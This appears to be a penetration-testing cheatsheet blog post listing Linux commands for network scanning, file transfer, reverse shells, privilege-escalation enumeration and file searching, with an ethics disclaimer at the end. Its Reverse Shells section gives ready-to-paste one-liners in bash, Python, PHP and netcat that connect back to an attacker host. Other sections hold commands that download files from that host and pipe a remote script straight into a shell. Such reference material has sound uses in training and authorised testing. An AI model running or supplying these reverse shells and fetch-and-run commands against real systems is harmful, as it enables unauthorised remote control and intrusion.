 +++
title = "Essential Linux Commands for Penetration Testing"
date = "2023-08-17"
author = "Zeus"
cover = ""
tags = ["linux", "commands", "cheatsheet", "penetration-testing"]
description = "A quick reference guide for essential Linux commands used during penetration testing."
showFullContent = false
+++

# Essential Linux Commands for Penetration Testing

This cheatsheet contains the most commonly used Linux commands during penetration testing engagements. Having these commands at your fingertips can save valuable time during CTFs, OSCP exam, or real-world assessments.

## Network Enumeration

### Network Scanning
```bash
# Basic nmap scan
nmap -sC -sV -oA initial_scan <target_ip>

# Full port scan
nmap -p- --min-rate 5000 -T4 <target_ip>

# UDP scan
nmap -sU -p 53,67,68,69,123,161,162 <target_ip>

# Vulnerability scanning
nmap --script vuln <target_ip>
```

### Network Connections
```bash
# List all listening ports
netstat -tuln

# Check established connections
netstat -tuplan

# Show routing table
route -n
ip route show
```

## File Transfer

### HTTP Server
```bash
# Python HTTP server
python3 -m http.server 8000

# PHP server
php -S 0.0.0.0:8000
```

### File Download
```bash
# wget
wget http://<attacker_ip>:8000/file.txt

# curl
curl -O http://<attacker_ip>:8000/file.txt

# PowerShell (from Windows)
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://<attacker_ip>:8000/file.exe', 'C:\Windows\Temp\file.exe')"
```

## Reverse Shells

### Bash
```bash
bash -i >& /dev/tcp/<attacker_ip>/4444 0>&1
```

### Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker_ip>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP
```php
php -r '$sock=fsockopen("<attacker_ip>",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Netcat
```bash
nc -e /bin/sh <attacker_ip> 4444
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attacker_ip> 4444 >/tmp/f
```

## Privilege Escalation

### Basic Enumeration
```bash
# System information
uname -a
cat /etc/issue
cat /etc/*-release

# User information
id
who
last

# Sudo permissions
sudo -l

# SUID binaries
find / -perm -u=s -type f 2>/dev/null
```

### Automated Enumeration Tools
```bash
# LinPEAS
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

# LinEnum
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
```

## File Manipulation

### Search for Files
```bash
# Find files by name
find / -name "*.conf" 2>/dev/null

# Find files by permission
find / -writable -type f 2>/dev/null

# Find files by owner
find / -user root -perm -4000 2>/dev/null
```

### Text Manipulation
```bash
# Search for string in files
grep -r "password" /etc/ 2>/dev/null

# Extract specific lines
cat file.txt | grep -A 3 -B 2 "keyword"

# Basic awk usage
cat /etc/passwd | awk -F: '{print $1":"$3":"$6}'
```

## Remember

This is just a basic reference. Always adapt commands to your specific situation and target environment. Keep learning and expanding your toolkit!

---

*Disclaimer: Use these commands ethically and only on systems you have permission to test.*

